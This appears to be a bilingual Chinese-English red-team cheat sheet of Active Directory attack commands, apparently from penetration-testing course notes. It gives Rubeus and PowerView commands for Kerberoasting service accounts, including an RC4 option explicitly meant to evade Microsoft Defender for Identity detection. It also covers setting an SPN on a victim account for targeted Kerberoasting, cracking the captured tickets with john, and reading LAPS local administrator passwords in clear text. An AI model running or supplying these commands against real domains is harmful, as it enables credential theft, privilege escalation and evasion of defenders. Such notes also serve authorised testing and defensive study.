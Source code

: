 # Kerberoast

ActiveDirectory module
```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
PowerView
```
Get-DomainUser –SPN
```

## 使用 Rubeus 列出 Kerberoast stats
```
Rubeus.exe kerberoast /stats
```

## 使用 Rubeus 请求 TGS
```
Rubeus.exe kerberoast /user:serviceaccount /simple
```

为了避免基于Kerberos ET类型的加密降级的检测（由MDI等使用 - 0x17 代表RC4-HMAC），寻找只支持RC4_HMAC的Kerberoastable账户
```
Rubeus.exe kerberoast /stats /rc4opsec

Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
```

## 列出所有可以Kerberoast的账号
```
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```

## 破解Kerberoast用户的ticket
```
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

# Targeted Kerberoasting - Set SPN

前提：
> If we have sufficient rights (GenericAll/GenericWrite), a target user's SPN can be set to anything (unique in the domain).(如果我们有足够的权限（GenericAll/GenericWrite），目标用户的SPN可以被设置为任何东西（在域中唯一的）)

> We can then request a TGS without special privileges. The TGS can then be "Kerberoasted".(然后我们可以请求一个没有特殊权限的TGS。然后TGS可以被 "Kerberoasted"。)

## 枚举指定账号的特别的ACL
```
Find-InterestingDomainAcl -ResolveGUIDs |?{$_.IdentityReferenceName -match "StudentUsers"}
```

## 枚举用户是否已经有SPN
使用powerview
```
Get-DomainUser -Identity support1user | select serviceprincipalname
```
使用ActiveDirectory module
```
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

## 为指定用户设置SPN
使用powerview
```
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX X'}
```
使用ActiveDirectory module
```
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX X'}
```

## Kerberoast the user
```
Rubeus.exe kerberoast /outfile:targetedhashes.txt

john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```


# LAPS

LAPS (Local Administrator Password Solution) provides centralized storage of local users passwords in AD with periodic randomizing.（LAPS（本地管理员密码解决方案）通过定期随机化在 AD 中提供本地用户密码的集中存储。）

1. "…it mitigates the risk of lateral escalation that results when customers have the same administrative local account and password combination on many computers."
2. Storage in clear text, transmission is encrypted (Kerberos).（以明文存储，传输是加密的（Kerberos））
3. Configurable using GPO.（可使用GPO进行配置）
4. Access control for reading clear text passwords using ACLs. Only Domain Admins and explicitly allowed users can read the passwords.（使用ACL对读取明文密码进行访问控制。只有域名管理员和明确允许的用户可以读取密码。）


## 可以使用 LAPS的计算机
在下面路径可以找到 AdmPwd.dll这个文件
```
C:\Program Files\LAPS\CSE\directory
```

## 查找哪些用户可以使用LAPS读取明文密码

使用PowerView
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

使用Active Directory module
```
Get-LapsPermissions.ps1
```

使用LAPS module
```
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1

Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

## 使用有权限使用LAPS的用户读取明文密码

使用PowerView
```
Get-DomainObject -Identity <targetmachine$> | select -ExpandProperty ms-mcs-admpwd
```

使用 Active Directory module
```
Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
```

使用LAPS module
```
Get-AdmPwdPassword -ComputerName <targetmachine>
```

